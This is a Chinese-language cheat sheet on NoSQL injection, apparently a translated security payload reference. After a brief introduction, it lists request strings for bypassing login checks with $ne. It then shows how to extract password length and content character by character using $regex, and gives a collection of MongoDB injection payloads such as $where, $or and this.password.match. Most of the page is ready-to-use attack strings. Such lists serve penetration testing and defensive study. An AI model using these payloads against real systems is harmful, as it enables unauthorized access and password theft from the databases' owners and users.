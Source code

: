 # 非关系型数据库
非关系型数据库相比传统的数据库提供更宽松的一致性限制。通过减少关系约束和一致性检查,非关系型数据库通常提供性能和扩展优势。然而,即使它们不使用传统的数据库语法，这些数据库仍然可能容易受到注入攻击。

## 攻击
 
使用不相等的基本身份验证旁路 ($ne)
```
username[$ne]=toto&password[$ne]=toto
```
 
提取长度信息
```
username[$ne]=toto&password[$regex]=.{1}
username[$ne]=toto&password[$regex]=.{3}
```

提取数据信息
```
username[$ne]=toto&password[$regex]=m.{2}
username[$ne]=toto&password[$regex]=md.{1}
username[$ne]=toto&password[$regex]=mdp

username[$ne]=toto&password[$regex]=m.*
username[$ne]=toto&password[$regex]=md.*
```

## MongoDB有效载荷
```
true, $where: '1 == 1'
, $where: '1 == 1'
$where: '1 == 1'
', $where: '1 == 1'
1, $where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
|| 1==1
' && this.password.match(/.*/)//+%00
' && this.passwordzz.match(/.*/)//+%00
'%20%26%26%20this.password.match(/.*/)//+%00
'%20%26%26%20this.passwordzz.match(/.*/)//+%00
{$gt: ''}
[$ne]=1
```


## 致谢
* https://www.dailysecurity.fr/nosql-injections-classique-blind/
* https://www.owasp.org/index.php/Testing_for_NoSQL_injection
* https://github.com/cr0hn/nosqlinjection_wordlists


